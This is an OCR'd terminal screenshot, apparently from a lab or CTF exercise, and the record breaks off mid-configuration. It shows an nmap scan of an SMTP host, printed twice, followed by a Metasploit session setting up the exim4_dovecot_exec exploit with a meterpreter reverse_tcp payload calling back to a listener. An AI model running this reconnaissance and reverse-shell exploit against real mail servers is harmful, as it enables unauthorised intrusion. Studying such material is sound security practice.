 ```
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: Production-Server, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-04-28T03:45:03
|_Not valid after:  2030-04-26T03:45:03
|_ssl-date: TLS randomness does not represent time
Service Info: Host:  Production-Server

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.55 seconds
zsh: segmentation fault  nmap -sV -sC 192.168.8.3 -p 25


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.6.156      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf6 exploit(linux/smtp/exim4_dovecot_exec) > set lHOST tun 0
lHOST => tun 0
msf6 exploit(linux/smtp/exim4_dovecot_exec) > set LPORT 4444
LPORT => 4444
msf6 exploit(linux/smtp/exim4_dovecot_exec) > set EHLO 
```

```
vC:\home\kali> nmap -sV -sC 192.168.8.3 -p 25     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-08 00:26 EST
Nmap scan report for 192.168.8.3
Host is up (0.58s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: Production-Server, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-04-28T03:45:03
|_Not valid after:  2030-04-26T03:45:03
|_ssl-date: TLS randomness does not represent time
Service Info: Host:  Production-Server

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.55 seconds
zsh: segmentation fault  nmap -sV -sC 192.168.8.3 -p 25

```
